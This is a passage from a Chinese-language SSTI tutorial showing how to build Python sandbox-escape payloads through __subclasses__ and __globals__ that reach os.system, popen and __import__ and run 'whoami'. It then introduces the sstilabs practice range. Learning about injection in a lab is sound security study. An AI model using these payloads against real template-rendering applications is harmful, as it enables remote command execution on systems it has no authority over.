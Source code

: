 在我本地(python3.6)运行,效果如下
![image-20210924172705770](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210924172705770.png)

构建 payload,可以看到能够执行系统命令

`().__class__.__base__.__subclasses__()[64].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")`

![image-20210924173036642](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210924173036642.png)

#### sys

同样,更改`find_exp_class.py`中`exp_flask`的内容为`sys`,本地运行,得到相关类和索引如下:

![image-20210924173220905](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210924173220905.png)

构建 payload,可以看到能够执行系统命令

`().__class__.__base__.__subclasses__()[64].__init__.__globals__['sys'].modules["os"].popen("whoami").read()`

![image-20210924173714196](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210924173714196.png)
其实这个 payload 的本质也是使用`os`模块

#### \_\_import\_\_

同样,更改`find_exp_class.py`中的`exp_flask`的内容为`__import__`,本地运行,得到相关类和索引如下:

![image-20210924183512163](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210924183512163.png)

构建 payload,可以看到能够执行系统命令:

`().__class__.__base__.__subclasses__()[64].__init__.__globals__['__import__']('os').system('whoami')`

![image-20210924183400807](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210924183400807.png)
同样,这个 payload 的本质也是使用`os`模块中的方法

有大佬把 python 目前自带函数全部搜集了起来并筛选出了可利用部分,详细可以参考这篇[博客](https://misakikata.github.io/2020/04/python-%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E4%B8%8ESSTI/#python3)

## 练习

光说不练假把式.

在了解 **SSTI 原理** 以及 payload 构造基础之后,来通过靶场练练手.学习一下常见 trick

> 靶场来源于 Github:https://github.com/X3NNY/sstilabs

### Level 1 no waf

![image-20210924190038637](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210924190038637.png)

第一关没 waf

